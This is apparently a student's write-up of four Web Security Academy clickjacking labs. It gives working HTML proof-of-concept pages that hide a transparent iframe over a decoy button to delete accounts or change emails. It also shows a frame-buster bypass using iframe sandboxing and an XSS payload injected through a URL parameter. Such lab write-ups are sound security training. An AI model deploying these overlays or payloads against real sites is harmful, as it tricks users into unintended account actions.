# Clickjacking (3/5)

## Labs

### **Basic clickjacking with CSRF token protection**

On the given scenario, we are able to load the target website in an `iframe` and place a button in the exact same position in the screen (in our own page) as the delete account button is placed in the target’s page.

We place this button in a layer below the one where the website is.



```html
<body>
    <button id="decoy">Click me</button id="decoy">
    <iframe id="lab" src="https://0aa5001c048caf8d8292bac7003f00cc.web-security-academy.net/my-account"
        frameborder="0"></iframe>
    <style>
        #lab {
            position: relative;
            z-index: 1;
            width: 800px;
            height: 800px;
            /* opacity: 0.00001; */
        }

        #decoy {
            position: absolute;
            z-index: 0;
            margin-top: 480px;
            width: 122px;
            margin-left: 27px;
            height: 30px;
        }
    </style>
</body>
```

After uncommenting the line that sets the opacity to a level that makes the iframe not visible, we get only our decoy page with the button we inserted.



When the user accesses our page and attempts to click this button, we are able to trigger them into deleting their own account.

### **Clickjacking with form input data prefilled from a URL parameter**

This lab allows us to access the page with prefilled form information by passing them in the way of a URL parameter

`https://0a44002003004742800d8a190042006f.web-security-academy.net/my-account?email=test`



```html
<body>
    <button id="decoy">Click me</button id="decoy">
    <iframe id="lab" src="https://0a44002003004742800d8a190042006f.web-security-academy.net/my-account?email=test@asd.com"
        frameborder="0"></iframe>
    <style>
        #lab {
            position: relative;
            z-index: 1;
            width: 800px;
            height: 800px;
            /* opacity: 0.00001; */
        }

        #decoy {
            position: absolute;
            z-index: 0;
            margin-top: 435px;
            width: 102px;
            margin-left: 47px;
            height: 28px;
        }
    </style>
</body>
```

HTML similar to the previous lab



### **Clickjacking with a frame buster script**

In this case, the website also allows prefilling the email using URL parameters. However, the lab’s description has told us that there’s a script that prevents the website from being framed.



I then looked at the page source for the mentioned script.



I searched about the top and self objects online and discovered that they’re read-only, so I can’t trick the image the way I imagined at first. However, I remembered that if we use the `sandbox=””` attribute of the iframe element, we would need to deliberately allow the framed page to run scripts if we wanted to. So I used this HTML:

```html
<body>
    <script></script>
    <button id="decoy">Click me</button id="decoy">    
    <iframe id="lab" src="https://0a9f00360334c23f85010878005a0046.web-security-academy.net/my-account?email=test@asd.com" sandbox="allow-forms" frameborder="0"></iframe>
    <style>
        #lab {
            position: relative;
            z-index: 1;
            width: 800px;
            height: 800px;
            opacity: 0.00001;
        }

        #decoy {
            position: absolute;
            z-index: 0;
            margin-top: 435px;
            width: 102px;
            margin-left: 47px;
            height: 28px;
        }
    </style>
</body>
```

Note that it’s necessary to use the allow-forms value in this case, so the form can be submitted.

### **Exploiting clickjacking vulnerability to trigger DOM-based XSS**

This lab’s application has a submit feedback function that reflects the user’s name on the page after the submission.



This allows us to submit a XSS payload that will be triggered when the “Submit feedback” button is clicked.





We can also populate the form fields in advance by passing them on the URL.



With all that, we are able to craft an HTML that has a button which if clicked will trigger our XSS.

```html
<iframe src="https://0a84004f039ecc8481196b2200130034.web-security-academy.net/feedback?name=%3Cimg%20src=x%20onerror=print()%3E&email=test@test.com&subject=asd&message=asd"
    style="width: 1500px; height: 1500px;"></iframe>
<button>Click me</button>

<style>
iframe {
    position: relative;
    opacity: 0.00001;
    z-index: 1;
    width: 1500px;
    height: 1500px;
}

button {
    position: absolute;
    z-index: 0;
    top: 820px;
    left: 180px;
    width: 160px;
    height: 40px;
}
</style>
```




